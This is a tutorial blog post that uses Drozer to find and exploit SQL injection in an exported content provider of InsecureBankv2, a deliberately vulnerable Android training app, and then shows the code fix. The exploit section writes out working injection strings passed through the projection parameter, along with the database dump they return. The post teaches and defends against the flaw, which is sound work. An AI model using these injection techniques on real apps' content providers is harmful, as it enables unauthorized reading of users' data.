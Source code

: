 ```yaml
---
layout: default
title: Identifying and Fixing Security Vulnerabilities of Android Applications - Content Providers
permalink: /android/security/:title
---
```


### Prerequisites 

* [InsecureBankv2](https://github.com/dineshshetty/Android-InsecureBankv2) installed on Android device or emulator
* [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) agent installed on Android device or emulator
* Drozer console runs and connected to drozer agent

### Getting information

Let's use [Drozer](https://labs.mwrinfosecurity.com/tools/drozer) to determine content providers that InsecureBank application exports:

```
dz> run app.provider.info -a com.android.insecurebankv2
Package: com.android.insecurebankv2
  Authority: com.android.insecurebankv2.TrackUserContentProvider
    Read Permission: null
    Write Permission: null
    Content Provider: com.android.insecurebankv2.TrackUserContentProvider
    Multiprocess Allowed: False
    Grant Uri Permissions: False
```

As seen from the above output, there is one content provider which is not protected by a permission. This means that any application on the same device can read and write to that provider. Let's determine what data does the given provider deal with. Usually, content providers use either SQLite databases or files as an underneath data storage with which they operate. In case of an SQLite database, content providers may be vulnerable to SQL injection vulnerabilities. The next step going forward is to determine which URIs does the provider deal with. We can do this by inspecting a reversed engineered source code of an application, or by using a dedicated drozer command (in a real world scenario, we would probably do both just to be on the safe side):

```
dz> run app.provider.finduri com.android.insecurebankv2
Scanning com.android.insecurebankv2...
content://com.android.insecurebankv2.TrackUserContentProvider/
content://com.google.android.gms.games
content://com.android.insecurebankv2.TrackUserContentProvider
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/
content://com.google.android.gms.games/
```

Next, we need to find if drozer found actual URIs. So, let's try queyring those URIs that deal with application:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/
Unknown URI content://com.android.insecurebankv2.TrackUserContentProvider/
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
| id | name   |
| 1  | dinesh |
```

We did not have luck with the first one, but we were able to successfully retrieve the content of `content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers`, which, apparently, shows us users that have used an application. 

### Exploit

Let's determine now if that content provider is vulnerable to SQL injection. As specified in Android [content providers documentation](https://developer.android.com/guide/topics/providers/content-provider-basics.html#Query), when constructing a query, projection defines which columns should be returned. This is where we can try to inject control character `'` to determine whether provider is vulnerable:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/* --projection "'"
unrecognized token: "' FROM names ORDER BY name" (code 1): , while compiling: SELECT ' FROM names ORDER BY name
```

As you can see, `'` token was used when constructing our query and that resulted in a SQL error. This means that our input was passed to SQL unsanitized. Now, let's try to determine if we can actually determine the structure of a database by constructing more elaborate injection:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/* --projection "* from sqlite_master --"
| type  | name             | tbl_name         | rootpage | sql                                                                            |
| table | android_metadata | android_metadata | 3        | CREATE TABLE android_metadata (locale TEXT)                                    |
| table | names            | names            | 4        | CREATE TABLE names (id INTEGER PRIMARY KEY AUTOINCREMENT,  name TEXT NOT NULL) |
| table | sqlite_sequence  | sqlite_sequence  | 5        | CREATE TABLE sqlite_sequence(name,seq)                                         |
```

In the above attack we used string `* from sqlite_master --` effectively turning the query that was executed into `SELECT * from sqlite_master`, which just gave us all tables in the underlying database.

As a side note, we will mention that drozer even has a dedicated command to execute similar type of an attack:

```
dz> run scanner.provider.sqltables -a content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers
Accessible tables for uri content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers:
  android_metadata
  names
  sqlite_sequence
```

### Fix

Proper design should always start with a discussion whether there is a legitimate need to export a given content provider, and then, what would be proper permissions to protect it (Hint: Use _signature_ permission to prevent other apps not developed by you from communicating with your app). But we already spent some time with the topic of permissions in one of the previous posts, so, let's try to see how to avoid SQL injection per se. 

When discussing the topic of SQL injection, it is almost customary to introduce a vulnerability by doing string concatenation. However, when we open a code of `TrackUserContentProvider`, we will see that this is not the case:

```
public Cursor query(Uri uri, String[] projection, String selection,	String[] selectionArgs, String sortOrder) {
		SQLiteQueryBuilder qb = new SQLiteQueryBuilder();
		qb.setTables(TABLE_NAME);
		
		switch (uriMatcher.match(uri)) {
			case uriCode:
				qb.setProjectionMap(values);
				break;
			default:
				throw new IllegalArgumentException("Unknown URI " + uri);
		}
		if (sortOrder == null || sortOrder == "") {
			sortOrder = name;
		}
		Cursor c = qb.query(db, projection, selection, selectionArgs, null, null, sortOrder);
		
		// ...
	}
```

The developer used a class `SQLiteQueryBuilder` from class library, and called `query` method on it passing `projection` parameter received from the caller. So, let's look into the [source code of this class](https://android.googlesource.com/platform/frameworks/base/+/master/core/java/android/database/sqlite/SQLiteQueryBuilder.java). At the time when I checked (January 2017), the `query` method had the following comment which indicated about protection against SQL injection in `selection` parameter:

```
// Validate the user-supplied selection to detect syntactic anomalies
// in the selection string that could indicate a SQL injection attempt.
```

So, there is a protection against injection in `selection` parameter. But what about `projection` parameter?! Turns out, more work is needed from the consumer of that API. 

There seems to be two ways how to deal with it. The first way that comes into mind is to do a whitelisting of fields that we allow to query. After all, `projection` parameter defines fields that may exist in the database, so, we can check whether the parameter contains legitimate fields before continuing with the query. Here is an example code one might add to the beginning of `query` method:

```
HashSet<String> validProjections = new HashSet<>(Arrays.asList("id", "name"));
for (String p : projection) {
    if (!validProjections.contains(p)) throw new IllegalArgumentException("Unknown projection: " + projection);
}
```

For our fix, we will choose another way by using `setProjectionMap` method from `SQLiteQueryBuilder` class. As stated in the [documentation](https://developer.android.com/reference/android/database/sqlite/SQLiteQueryBuilder.html#setProjectionMap(java.util.Map%3Cjava.lang.String,%20java.lang.String%3E)),

> If a projection map is set it must contain all column names the user may request, even if the key and value are the same.

`TrackUserContentProvider` already has a static `values` HashMap that is being used in the following method call:

```
qb.setProjectionMap(values);
```

The problem is that `values` HashMap is never populated. Let's add to it two possible columns that can exist in table `names`: `id` and `name` (Note, that since we don't specify a mapping between user provided names and database names, we use the same strings for keys and values in the HashMap):

```
values = new HashMap<>();
values.put("id", "id");
values.put("name", "name");
```

When we recompile our application and send it to the device, we will see that SQL injection does not work anymore:

```
dz> run app.provider.query content://com.android.insecurebankv2.TrackUserContentProvider/trackerusers/ --projection "'"
Invalid column '
```

### Summary

In this post we looked at exploiting SQL injection in unsecured content provider. We also showed how to fix this vulnerability either by introducing whitelisting or using a method from the framework.
